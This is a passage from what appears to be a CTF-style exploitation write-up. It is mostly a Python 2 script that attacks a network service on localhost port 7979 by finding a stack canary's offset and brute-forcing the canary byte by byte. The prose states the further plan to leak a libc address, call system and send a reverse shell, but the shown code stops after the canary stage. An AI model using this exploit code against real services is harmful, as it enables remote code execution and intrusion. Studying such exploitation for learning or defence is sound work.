 ```
```
Now I have to write a full code to bruteforce canary and leak memset address calculate the address of system to call and then push my reverse shell to buffer.
```python
from socket import *
import time
from struct import *

host = "127.0.0.1"
# host = "192.168.159.133"
port = 7979

def find_canary_pos():
        print "[+] Finding canary position..."
        canary_pos = 995
        while True:
                s = socket(AF_INET, SOCK_STREAM)
                s.connect((host, 7979))
                response = s.recv(1024)
                s.send("A"* canary_pos)
                time.sleep(0.1)
                response = s.recv(1024)
                s.close()
                if "---" not in response:
                        break
                canary_pos = canary_pos + 1
        return canary_pos - 1

def bruteforce_canary(canary_pos):
        # (b...)(a...)(d..)(c.........)(CANARY)(CTLI)(RETA)
        # .............................(A     )......... >> ret an error 
        # .............................(C     )......... >> ret no error 
        # .............................(CA    )......... >> ret no error
        # .............................(CAN   )......... >> ret no error
        # ...so on... 
        print "[+] Bruteforcing canary..."
        canary = ""
        for byte in xrange(8):
                for cnr in xrange(256):
                        hex_byte = chr(cnr)
                        tmp_cnr = canary + hex_byte
                        s = socket(AF_INET, SOCK_STREAM)
                        s.connect((host, port))
                        s.recv(1024)
                        payload = "A" * canary_pos + tmp_cnr
                        s.send(payload)
                        s.recv(1024)
                        time.sleep(0.1)
                        rec = s.recv(1024)
                        s.close()
                        if "---" in rec:
                                canary = tmp_cnr
                                print("[+] Found byte("+str(byte)+"): " + hex_byte.encode("hex"))
                                break
        return canary


canary_position = find_canary_pos()
print "[+] Canary position: " + str(canary_position)
canary = bruteforce_canary(canary_position)
print "[+] Canary: " + canary.encode("hex")
#  Find sock FD to change stdout to socket
s = socket()
```